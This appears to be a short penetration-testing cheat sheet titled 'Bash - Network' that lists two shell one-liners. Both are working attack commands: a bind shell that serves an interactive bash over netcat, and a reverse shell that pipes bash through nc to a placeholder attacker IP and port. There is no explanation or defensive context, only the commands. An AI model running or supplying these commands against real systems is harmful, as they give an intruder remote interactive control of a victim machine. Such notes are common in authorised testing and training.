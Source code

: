 # Bash - Network

## bash - bind shell to TCP session
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <VICTIM IP> <PORT > /tmp/f
```

## bash - nc - revshell
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

